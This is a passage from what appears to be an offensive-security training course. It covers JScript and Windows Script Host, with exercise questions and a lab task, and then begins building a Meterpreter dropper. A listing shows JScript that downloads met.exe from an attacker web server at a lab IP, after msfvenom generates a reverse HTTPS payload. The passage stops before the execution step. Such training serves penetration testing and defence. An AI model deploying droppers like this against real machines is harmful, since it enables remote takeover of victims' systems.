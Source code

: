 3. What technology is leveraged by Jscript when executed outside a web browser to interact with Windows Script Host?

```
A) ActiveX
B) COM
C) WMI
D) PowerShell
```

Answer

4. Connect to the dev01 machine and find the flag1.js code under the **c:\tools\exercises** folder. To obtain the flag, identify and correct the error in the provided JScript code, then run the corrected script.

Answer

## 5.1.2. Jscript Meterpreter Dropper

Next, we'll expand our usage of Jscript to create a dropper that downloads a Meterpreter executable from our Kali Linux web server and executes it. This will require several components.

First, we'll use _msfvenom_ to generate a 64-bit Meterpreter reverse HTTPS executable named **met.exe** and save it to our Kali web root. We'll also set up a Metasploit multi/handler to catch the session.

With our executable generated and our handler waiting, let's begin building our dropper code. We'll start with a simple HTTP GET request from Jscript.

To do that, we can use the _MSXML2.XMLHTTP_ object, which is based on the Microsoft XML Core Services,[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_4938-1) and its associated HTTP protocol parser. This object provides client-side protocol support to communicate with HTTP servers. Although it is not documented, it is present in all modern versions of Windows.

As shown in Listing 2, we can use the _CreateObject_ method of the Windows Script Host to instantiate the _MSXML2.XMLHTTP_ object, then use the _Open_ and _Send_ methods to perform an HTTP GET request. The _Open_ method takes three arguments. The first is the HTTP method, in our case GET. The second argument is the URL, and the third argument indicates that the request should be synchronous.

To summarize our code, we'll use the (_url_) variable to set the URL of the Meterpreter executable. Then we'll create a Windows Script _MSXML2.XMLHTTP_ object and call the _Open_ method on that object to specify a GET request along with the URL. Finally, we'll send the GET request to download the file.

```
var url = "http://192.168.251.151/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

> Listing 2 - HTTP GET request from Jscript

Now that we have sent the HTTP GET request, we'll perform two actions. The first is to determine if the request was successful. We can do this by checking the _Status_[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_4938-2) property of the _MSXML2.XMLHTTP_ object and comparing it to the value "200", the HTTP _OK_[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_4938-3) status code. We'll use an _if_ statement:
